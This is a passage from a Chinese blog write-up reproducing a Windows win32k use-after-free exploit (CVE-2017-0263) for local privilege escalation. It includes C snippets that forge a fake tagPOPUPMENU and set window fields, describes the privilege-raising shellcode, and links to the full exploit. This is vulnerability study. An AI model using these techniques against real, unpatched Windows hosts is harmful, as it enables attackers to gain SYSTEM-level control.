>> tagWND 虽然是分配在 desktop heap 中的，但是 tagPOPUPMENU 却是分配在 session pool 中的。并且，tagWND 的 menuname，也就是 tagWND -> pcls -> lpszMenuName 也是分配在 session pool 中的。换句话说，若我们在 ExFreePoolWithTag 释放完 tagPOPUPMENU 之后，分配一个同等大小的 lpszMenuName，这个 lpszMenuName 会正好被分配在刚释放掉的 tagPOPUPMENU 的位置上。
> 3. 在阴影窗口消息处理函数中再次调用 xxxMNEndMenuState
> 4. xxxMNEndMenuState 调用 MNFreePopup 进行解锁操作，我们创建的普通窗口的 bServerSideWindowProc 被置位
> 5. 向我们创建的普通窗口发送消息以调用它的消息处理函数，它的消息处理函数在内核模式下完成本地提权

当目前为止，我们已经知道该如何提权了，接下来我们要做的就是不要让程序崩溃，只要让程序正常运行完，那么提权将得以成功。

因为我们的程序是从 NtUserMNDragLeave 二次进入 xxxMNEndMenuState 的。所以我们可以从 NtUserMNDragLeave 开始设置一些东西让程序得以正常运行。

首先，为使在稍后位置调用的系统服务 NtUserMNDragLeave 能依据伪造的根弹出菜单对象再次进入函数 xxxMNEndMenuState 调用，需要将伪造对象的成员域 flags 进行稍微设置，将关键标志位置位，其余标志位置零。

```c
[...]
+0x000 fIsTrackPopup    : 0y1
[...]
+0x000 fFirstClick      : 0y1
[...]
+0x000 fDestroyed       : 0y1
+0x000 fDelayedFree     : 0y1
[...]
+0x000 fInCancel        : 0y1
[...]
```

其次，因为 xxxMNEndMenuState 还要对伪造的根弹出菜单对象的成员进行操作，所以我们需要伪造一个合法的地址，并且在执行完解锁操作后不能让它的锁计数为 0，不然调用销毁函数又要出问题。

```c
DWORD dwPopupFake[0xD] = { 0 };
dwPopupFake[0x0] = (DWORD)0x00098208;  //->flags
dwPopupFake[0x1] = (DWORD)pvHeadFake;  //->spwndNotify
dwPopupFake[0x2] = (DWORD)pvHeadFake;  //->spwndPopupMenu
dwPopupFake[0x3] = (DWORD)pvHeadFake;  //->spwndNextPopup
dwPopupFake[0x4] = (DWORD)pvAddrFlags - 4; //->spwndPrevPopup // 减的是 4 个 DOWRD 的距离
dwPopupFake[0x5] = (DWORD)pvHeadFake;  //->spmenu
dwPopupFake[0x6] = (DWORD)pvHeadFake;  //->spmenuAlternate
dwPopupFake[0x7] = (DWORD)pvHeadFake;  //->spwndActivePopup
dwPopupFake[0x8] = (DWORD)pvHeadFake;  //->ppopupmenuRoot
dwPopupFake[0x9] = (DWORD)pvHeadFake;  //->ppmDelayedFree
dwPopupFake[0xA] = (DWORD)pvHeadFake;  //->posSelectedItem
dwPopupFake[0xB] = (DWORD)pvHeadFake;  //->posDropped
dwPopupFake[0xC] = (DWORD)0;
```

看到 MNEndMenuStateNotify 函数

```c
signed int __stdcall MNEndMenuStateNotify(tagMENUSTATE *a1)
{
  tagWND *v1; // eax
  tagTHREADINFO *v2; // eax

  v1 = a1->pGlobalPopupMenu->spwndNotify;
  if ( !v1 )
    return 0;
  v2 = v1->head.pti;
  if ( v2 == a1->ptiMenuStateOwner )
    return 0;
  v2->pMenuState = 0;
  return 1;
}
```

MNEndMenuStateNotify 要用到 tagWND 的 pti，若 v2 不等于 a1->ptiMenuStateOwner 的话 pMenuState 就要被置零了，所以我们放个真正的 pti 进去

```c
PVOID pti = head->thread.pti;
SetWindowLongW(hWindowHunt, 0x28, 0); // hModule
SetWindowLongW(hWindowHunt, 0x50, (LONG)pti); // pti
SetWindowLongW(hWindowHunt, 0x6C, 0); // hModule
SetWindowLongW(hWindowHunt, 0x1F8, 0xC033C033); // 结尾标志
SetWindowLongW(hWindowHunt, 0x1FC, 0xFFFFFFFF); // 结尾标志
```

读者目前看到这段代码可能不知道具体是什么意思，没关系结合一下整个 exp 稍微读一读就知道在干嘛了

这里顺便提一下 0x28、0x6c 的位置指的是 tagWND 的 hModule，我们的窗口确实没有关联任何 module，所以这个值等于 0 才是对的。但是从 NtUserMNDragLeave 的调用开始我好像没有看到有关这个值的使用，把这两行注释掉也确实是可以提权的，保险起见还是加上吧

最后就是二次调用 xxxMNEndMenuState 会释放掉我们伪造的 tagPOPUPMENU，实际是 tagWND -> pcls -> lpszMenuName。在进程退出时会回收我们进程所用的内存，这时又会有一次对 lpszMenuName 的释放从而造成崩溃（等于说是二次释放），所以我们必须在此之前手动置零 lpszMenuName 指针。

这里再插一句，忘了在哪里看过的，像 lpszMenuName 之类的字符串，在内存中只会有一份，若有多个指针指向同一个字符串，它们在内存中其实是指向同一块地址的。所以我觉得 exp 能利用成功纯粹是因为我们的 lpszMenuName 的大小和刚释放的 tagPOPUPMENU 的大小相等，内存管理器倾向于分配同一块空间而已，把 exp 中创建 hWindowList 的 for 循环的 0x100 改成 0x1 也完全可以利用成功（这句话不是猜测，不信读者可以自己尝试一下）。我觉得 exp 看起来像是创建了 0x100 份 lpszMenuName，实际上只创建了一份，若真想创建 0x100 份 lpszMenuName 得让每一个 lpszMenuName 都不相等才行。（纯凭理论在猜测，没有去验证，但我觉得应该是这样的）

shellcode 的话大概就是先判断传进来的 msg 是不是我们要的（毕竟是一个消息处理函数，它会收到的消息可不止是我们发的），不是的话就返回。然后判断执行时是否处于内核模式下，不是的话就返回。接着把 lpszMenuName 指针置零。最后提权。详情请看 exp，不复杂并且 exp 里都有注释。

最后就是给出 [exp](https://github.com/50u1w4y/50u1w4y.github.io/tree/master/docs/recurrence/code/CVE-2017-0263/exp.cpp) 了，这里就不再贴 exp 了，给个链接，不然这篇文章真的太长了。该解释的东西应该都解释完了，对 exp 就不再做解释了，并且里面也有算详细的注释。

这里给出的 exp 其实就是小刀志师傅的 exp，里面只是多了点我自己的注释而已。

看 exp 的时候你会看到一个叫 xxHMValidateHandle 函数，它返回的是 tagWND 在 user desktop heap 下的地址，最终目的是计算 tagWND 在内核中的地址，此函数支持到 RS3 （windows 10 1709，这个漏洞爆的时候明显能用），这里也不再说明这个函数的原理了，这篇文章已经够长了，有兴趣的可以看一下 HEVD 目录下的 RS2 那篇文章。（还没更嘻嘻，等什么时候更了就回来把这段话改一下，不过可能要等挺久的了，最近被老师拉过去搞固件了，本科毕设我也只有两个题目可以选，正好也选了固件的那个题目（主要是另一个题目真没意思），所以接下来就搞固件去了，windows 得先放一放，毕竟毕设得好好写一下，论文要写挺久的，得毕业的嘛不是）

## 0x04 结束语
阿西吧终于写完了！一个 CVE 洞里内容也太多了，可能是因为第一次接触 CVE 吧刚开始的时候这也不会那也不会，整个过程下来学了好多东西。

这篇文章耗时可真是够长的，不过整个过程下来收获也不小算是值了。

最后不得不再感概一下师傅们真是太厉害了，先不说挖到这个洞的问题，毕竟我也不知道人家怎么挖的，光是这个利用过程，这么多东西交织在一起，哪里稍微错一点点都不可能看到 nt authority/system

： )

---

<p align='right'>2019.11.6</p>